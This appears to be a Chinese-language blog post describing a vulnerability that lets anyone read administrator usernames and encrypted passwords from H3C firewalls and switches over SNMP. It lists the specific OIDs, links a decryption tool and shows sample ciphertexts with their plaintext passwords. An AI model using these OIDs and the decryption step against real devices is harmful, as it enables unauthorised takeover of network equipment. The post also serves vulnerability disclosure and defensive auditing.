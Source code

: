 ```yaml
---
layout: post
title: "h3c snmp获取管理员登录密码"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

### 参考资料 ###

[h3c获取管理员密码](http://www.wooyun.org/bugs/wooyun-2010-021877)
[华为交换机获取管理员密码](http://www.wooyun.org/bugs/wooyun-2010-021964)

测试型号：h3c SecPath F5000-A5

### 漏洞详情 ###
管理员用户名和密码可以通过snmp读取，从而获得管理权限。h3c的私有mib有两种，一种是2011（huawei h3c),一种是25506（hh3c)。经过测试发现，有些设备只支持一种。如果一种获取不到数据，可以两种都尝试下。相关的oid为：

	1.3.6.1.4.1.2011.10.2.12.1.1.1.1.1 h3cUserName OCTET-STRING admin 
	1.3.6.1.4.1.2011.10.2.12.1.1.1.1.2 h3cUserName OCTET-STRING h3c 
	1.3.6.1.4.1.2011.10.2.12.1.1.1.1.3 h3cUserName OCTET-STRING pppoe 
	1.3.6.1.4.1.2011.10.2.12.1.1.1.2.1 h3cUserPassword OCTET-STRING .]@USE=B,53Q=^Q`MAF4<1!! 
	1.3.6.1.4.1.2011.10.2.12.1.1.1.2.2 h3cUserPassword OCTET-STRING test 
	1.3.6.1.4.1.2011.10.2.12.1.1.1.2.3 h3cUserPassword OCTET-STRING pppoe 

	1.3.6.1.4.1.2011.10.2.12.1.1.1.1.1为用户名，
	如果有多个用户则最后一位依次为2,3...
	1.3.6.1.4.1.2011.10.2.12.1.1.1.2.1为第一个用户的密码，以此类推。
	后面还有一些oid可以获取用户用户是否有管理权限等。需要详细研究的话可以walk一下看看。

25506 相关的oid为：

	1.3.6.1.4.1.25506.2.12.1.1.1.1.1 h3c 
	1.3.6.1.4.1.25506.2.12.1.1.1.2.1 P.KG0>5&YV3;5#)%#Z[VS1!! 
	1.3.6.1.4.1.25506.2.12.1.1.1.3.1 7 
	1.3.6.1.4.1.25506.2.12.1.1.1.4.1 3 
	1.3.6.1.4.1.25506.2.12.1.1.1.5.1 0 
	1.3.6.1.4.1.25506.2.12.1.1.1.6.1 1 

同样，第一个为用户名，第二个为密码。

获取到的密码是一个加密的字符串。[解密的工具可以在这里下载](https://github.com/grutz/h3c-pt-tools/blob/master/hh3c_cipher.py)

	.]@USE=B,53Q=^Q`MAF4<1!!: admin
	-AO7S27&QTCQ=^Q`MAF4<1!!: h3c123
	P.KG0>5&YV3;5#)%#Z[VS1!!: Zjyd_h3c_10
	如上，可以直接得到明文的密码。然后就可以在web登录了。

### 实例测试 ###
![test]({{site.img_url}}h3c.png)

![test1]({{site.img_url}}h3c1.png)
